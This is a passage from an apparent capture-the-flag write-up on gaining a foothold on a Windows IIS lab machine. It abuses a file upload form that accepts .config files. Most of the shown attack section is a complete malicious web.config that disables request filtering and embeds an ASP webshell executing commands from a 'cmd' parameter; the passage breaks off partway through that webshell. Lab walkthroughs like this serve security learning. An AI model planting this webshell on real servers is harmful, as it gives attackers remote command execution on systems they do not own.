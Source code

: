 2019/09/18 16:01:55 Finished
===============================================================
{% endhighlight %}

### 2. Getting User

We have only one port opening 80 (HTTP).
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-09-19/2019-09-18-12-05-36.png)

We have only 2 path available. "transfer.aspx" and "Uploadedfiles".<br>
If we upload .jpg file with "transfer.aspx", it will be uploaded into "Uploadedfiles".<br>
However, if we upload .aspx file, we get this message below.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-09-19/2019-09-19-10-52-43.png)

By trying some extensions, we can find that it's possible to upload .config file.<br>
Besides, we can find a <a href="https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/">blog post</a> which mentions RCE by uploading web.config.<br>
<br>
To obtain that purpose, at first, create web.config.<br>
This time, web.config template from above website and an ASP webshell is being used.<br>
We can find an ASP webshell <a href="https://github.com/tennc/webshell/blob/master/asp/webshell.asp">here</a>
{% highlight shell %}
root@kali:~# cat web.config 
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />        
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)
    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>
<HTML>
<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>
<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>